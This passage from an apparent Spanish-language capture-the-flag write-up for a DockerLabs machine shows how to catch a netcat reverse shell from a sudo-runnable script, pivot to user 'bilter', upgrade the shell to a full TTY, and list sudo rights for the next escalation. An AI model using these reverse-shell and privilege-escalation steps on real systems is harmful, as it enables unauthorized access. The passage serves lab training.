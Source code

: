 Por lo que vemos esta ejecutando un `nc` para crear una `shell` a una `IP` y puerto en concreto, por lo que haremos lo siguiente:

En nuestro `host` añadiremos la `IP` que esta en el script de la siguiente forma:

```shell
sudo ip addr add 172.17.0.186/16 dev docker0
```

Y una vez que ya hayamos añadido la `IP`, nos pondremos a la escucha con el siguiente puerto:

```shell
nc -lvnp 6068
```

En la maquina victima ejecutamos lo siguiente:

```shell
sudo -u bilter /opt/life.sh
```

Y ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 6068 ...
connect to [172.17.0.186] from (UNKNOWN) [172.17.0.3] 39342
whoami
bilter
```

Vemos que somos dicho usuario.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user purter

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bilter on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bilter may run the following commands on dockerlabs:
    (ALL : ALL) NOPASSWD: /usr/local/bin/dead.sh
```
